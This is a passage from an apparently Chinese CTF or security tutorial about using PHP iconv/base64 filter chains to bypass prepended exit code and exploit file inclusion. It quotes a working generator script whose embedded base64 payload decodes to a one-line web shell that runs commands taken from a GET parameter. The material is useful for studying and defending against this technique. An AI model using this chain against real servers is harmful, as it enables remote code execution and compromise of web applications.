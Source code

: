 0x03iconv转换
===========

因为这个知识点Zedd师傅单独写了一篇文章，所以我觉得这里不仅可以绕死亡代码也可以用于文件包含当中，于是我将其作为单独的一个知识点分出，但是还是可以绕过第二类的死亡代码的

本质上也和base64的特性有挂钩，也是不断的去编码解码来获取我们想要的东西
======================================

这里我就拿Zedd师傅其中的一段我认为比较有代表性的代码块贴出来

```php
<?php
$base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4";
$conversions = array(
    'R' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C' => 'convert.iconv.UTF8.CSISO2022KR',
    '8' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'V' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'd' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
);

$filters = "convert.base64-encode|";
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
$filters .= "convert.iconv.UTF8.UTF7|";

foreach (str_split(strrev($base64_payload)) as $c) {
    $filters .= $conversions[$c] . "|";
    $filters .= "convert.base64-decode|";
    $filters .= "convert.base64-encode|";
    $filters .= "convert.iconv.UTF8.UTF7|";
}
$filters .= "convert.base64-decode";

$final_payload = "php://filter/{$filters}/resource=data://,aaaaaaaaaaaaaaaaaaaa";

// echo $final_payload;
var_dump(file_get_contents($final_payload));

```